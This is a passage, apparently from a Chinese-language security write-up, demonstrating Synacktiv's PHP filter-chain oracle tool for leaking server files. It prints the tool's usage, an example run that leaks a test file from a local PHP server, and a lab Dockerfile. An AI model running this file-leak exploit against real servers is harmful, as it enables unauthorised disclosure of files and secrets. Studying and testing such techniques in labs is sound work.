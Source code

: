 ## 九、自动化攻击过程演示

基于@hash\_kitten 的文章开发了一个工具，并在这篇文章中提到了更多的技巧和优化方法。它可以在 GitHub 存储库中找到。  
[https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)  
[https://github.com/DownUnderCTF/Challenges\_2022\_Public/blob/main/web/minimal-php/solve/solution.py](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py)

工具目前允许选择一个目标，用于注入的 POST 参数和一个代理（如果需要查看请求的话就可以使用代理）：

```plain
$ python3 filters_chain_oracle_exploit.py --help
usage: filters_chain_oracle_exploit.py [-h] --target TARGET --file FILE --parameter PARAMETER [--data DATA] [--headers HEADERS] [--verb VERB] [--proxy PROXY]
                                       [--time_based_attack TIME_BASED_ATTACK] [--delay DELAY]

        Oracle error based file leaker based on PHP filters.
        Author of the tool : @_remsio_
        Trick firstly discovered by : @hash_kitten
        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        $ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
        [*] The following URL is targeted : http://127.0.0.1
        [*] The following local file is leaked : /test
        [*] Running POST requests
        [+] File /test leak is finished!
        b'SGVsbG8gZnJvbSBTeW5hY2t0aXYncyBibG9ncG9zdCEK'
        b"Hello from Synacktiv's blogpost!\n"


optional arguments:
  -h, --help            show this help message and exit
  --target TARGET       URL on which you want to run the exploit.
  --file FILE           Path to the file you want to leak.
  --parameter PARAMETER
                        Parameter to exploit.
  --data DATA           Additionnal data that might be required. (ex : {"string":"value"})
  --headers HEADERS     Headers used by the request. (ex : {"Authorization":"Bearer [TOKEN]"})
  --verb VERB           HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE
  --proxy PROXY         Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)
  --time_based_attack TIME_BASED_ATTACK
                        Exploits the oracle as a time base attack, can be improved. (ex : True)
  --delay DELAY         Set the delay in second between each request. (ex : 1, 0.1)
```

下面是环境搭建的`Dockerfile`文件 and `index.php`文件。

```plain
FROM php:8.1-apache

RUN mv "$PHP_INI_DIR/php.ini-production" "$PHP_INI_DIR/php.ini"

COPY index.php /var/www/html/index.php
COPY test /test
```
